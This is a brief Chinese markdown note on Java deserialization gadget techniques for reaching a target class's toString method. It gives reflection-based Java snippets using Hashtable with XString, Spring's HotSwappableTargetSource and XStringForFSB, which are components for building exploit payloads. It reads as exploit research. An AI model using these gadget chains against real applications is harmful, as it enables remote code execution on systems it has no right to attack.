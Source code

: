 # 如何在反序列化的时候触发指定类的toString方法呢？

`先说jdk自带的类`

1、jdk反序列化可控参数直接toString

## BadAttributeValueExpException

略过。

2、Xstring结合equal触发

## Hashtable

```java
        XString xString = new XString("");
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        innerMap1.put("yy",xString);
        innerMap1.put("zZ",userMap);

        innerMap2.put("zZ",xString);
        innerMap2.put("yy",userMap);

        Hashtable hashtable = new Hashtable();
        hashtable.put(innerMap1, 1);
        //hashtable.put(innerMap2, 2);
        Method addEntry = hashtable.getClass().getDeclaredMethod("addEntry",int.class,Object.class,Object.class,int.class);
        addEntry.setAccessible(true);
        addEntry.invoke(hashtable,innerMap2.hashCode(),innerMap2,2,2);
```

`非jdk自带的类`

## HotSwappableTargetSource

如果项目中有此类。（`jar包`:spring-aop-5.3.23.jar）这里只是举个例子。

```java
		HotSwappableTargetSource v1 = new HotSwappableTargetSource(toStringBean);
       	 HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("xxx"));

        HashMap<Object, Object> s = new HashMap<>();
//        s.put(v1,1);
//        s.put(v2,2); 反射不调用put
        Class<?> aClass1 = Class.forName("java.util.HashMap");
        Field size = aClass1.getDeclaredField("size");
        size.setAccessible(true);
        size.set(s, 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, 1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, 2, null));

        Field table = aClass1.getDeclaredField("table");
        table.setAccessible(true);
        table.set(s, tbl);
```

3、XStringForFSB（其实跟Xstring类似，因为本身就继承了Xstring，用处不大）结合equal触发

```java
XStringForFSB xStringForFSB = new XStringForFSB(new FastStringBuffer(),0,0);
```
